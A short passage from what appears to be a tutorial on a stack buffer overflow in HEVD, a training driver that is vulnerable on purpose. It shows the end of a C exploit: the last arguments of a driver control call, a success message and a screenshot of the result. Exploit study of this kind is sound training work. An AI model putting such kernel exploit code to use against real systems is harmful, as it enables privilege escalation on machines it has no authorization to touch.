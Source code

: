 ```c
        0x824,
        NULL,
        0,
        &lpBytesReturned,
        NULL
    );

    printf("[+] SUCCESS\n");
    return 0;
}
```

<br>
If we compile and run it you should see the following.  
<br>
![Exploit Output](/assets/images/HEVD-Win7-x86-StackBufferOverflow-Success.png)  

